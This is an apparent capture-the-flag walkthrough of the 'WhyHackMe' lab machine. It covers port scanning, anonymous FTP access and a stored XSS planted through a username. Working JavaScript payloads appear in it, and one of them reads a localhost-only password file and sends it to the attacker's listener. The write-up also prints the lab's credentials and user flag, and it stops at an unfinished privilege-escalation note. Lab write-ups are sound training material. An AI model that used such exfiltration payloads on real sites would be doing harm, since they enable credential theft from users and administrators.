







## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                                                                       
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                                                  
| ftp-syst:                                                                                                                                                                                                       
|   STAT:                                                                                                                                                    
| FTP server status:                                                                                                                                         
|      Connected to 192.168.164.248                                                                                                                          
|      Logged in as ftp                                                                                                                                      
|      TYPE: ASCII                                                                                                                                           
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 4                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                   
|_End of status                                                                                                                                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                       
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt                                                                                                                         
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)                                                                                             
| ssh-hostkey:                                                                                                                                                                               
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVPKwhXf+lo95g0TZQuu+g53eAlA0tuGcD2eIcVNBuxuq46t6mjnkJsCgUX80RB2wWF92OOuHjETDTduiL9QaD2E/hPyQ6SwGsL/p+JQtAXGAHIN+pea9LmT3DO+/L3RTqB1VxHP/opKn4ZsS1SfAHMjfmNdNYALnhx2rgFOGl
TwgZHvgtUbSUFnUObYzUgSOIOPICnLoQ9MRcjoJEXa+4Fm7HDjo083hzw5gI+VwJK/P25zNvD1udtx3YII+cnOoYH+lT2h/gPcJKarMxDCEtV+3ObVmE+6oaCPx+eosZ+45YuUoAjNjE/U/KAWIE+Y0Xav87hQ/3ln4bzB8N5WV41/WC5zqIfFzuY+ewx6Q6u6t7ijxZ+AE2sayFIq
IgmXKWKq3NM9fgLgUooRpBRANDmlb9xI1hzKobeMPOtDkaZ+rIUxOLtUMIkzmdRAIElz3zlxBD+HAqseFrmXKKvLtL6JllEqtEZShSENNZ5Rbh3nBY4gdiPliolwJkrOVNdhE=                       
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFynIMOUWPOdqgGO/AVP9xcS/88z57e0DzGjPCTc6OReLmXrB/egND7VnoNYnNlLYtGUILQ1qoTrL7hC+g38pxc=                                                
|   256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTv0OsWH1pAq3F/Gpj1LZuPXHZZevzt2sgeMLwWUCRt                                                                           
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                                                           
|_http-server-header: Apache/2.4.41 (Ubuntu)                                  
| http-methods:                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                             
|_http-title: Welcome!!                                                       
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ...

First we login anonymously to the ftp service, we can find the file `update.txt` and take it:
```bash
┌──(agonen㉿kali)-[~/thm/WhyHackMe]                                                                                                                                                          
└─$ ftp anonymous@whyhackme.thm                                                                                                                                                              
Connected to whyhackme.thm.                                                                                                                                                                  
220 (vsFTPd 3.0.3)                                                                                                                                                                           
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.                                                                                                                         
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||40880|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt                                                                                           
l226 Directory send OK.                
ftp> ls -l                                                                    
229 Entering Extended Passive Mode (|||18171|)                                                
150 Here comes the directory listing.                                         
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt                            
226 Directory send OK.                         
ftp> get update.txt                            
local: update.txt remote: update.txt
```



This is the file:
```bash
┌──(agonen㉿kali)-[~/thm/WhyHackMe]
└─$ cat update.txt   
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 
- admin
```

Next, i went to the http server. first we can see this `blog.php` page



The first comment says something that might hint us there might be a `XSS Injection`
```bash
Name: admin
Comment: Hey people, I will be monitoring your comments so please be safe and civil.
```

So, I tried to register at `register.php`, and the login at `login.php` and go back to `blog.php`, and give the XSS Injection comment. The problem was it html encoding the comment.

Next, I tried to register user with name like `<script>alert()</script>`, and it worked, we got our XSS.
In this case I used the payload:
```js
<script>fetch('http://192.168.164.248:8089/CHECK')</script>
```



set up python http server:
```bash
python3 -m http.server 8089
```
and got the requests.



I gave this payload, to fetch the data from `http://127.0.0.1/dir/pass.txt` and then send it to my http server, on port `8081`.
```js
<script> x=new XMLHttpRequest(); x.onload=function(){   new Image().src='http://192.168.164.248:8081/?'+btoa(this.responseText); }; x.open('GET','http://127.0.0.1/dir/pass.txt'); x.send(); </script>
```

set up the listener:
```bash
┌──(agonen㉿kali)-[~/thm/WhyHackMe]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.66.189.200 - - [21/Dec/2025 15:09:02] "GET /?amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo= HTTP/1.1" 200 -
```



and after decoding:
```bash
┌──(agonen㉿kali)-[~/thm/WhyHackMe]
└─$ echo 'amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=' | base64 -d
jack:WhyIsMyPasswordSoStrongIDK
```

we can login via ssh using the credentials:



and grab the user flag:
```bash
jack@ubuntu:~$ cat user.txt 
1ca4eb201787acbfcf9e70fca87b866a
```

### Privilege Escalation to Root

sudo -l, there is ip-tables. need further investigation


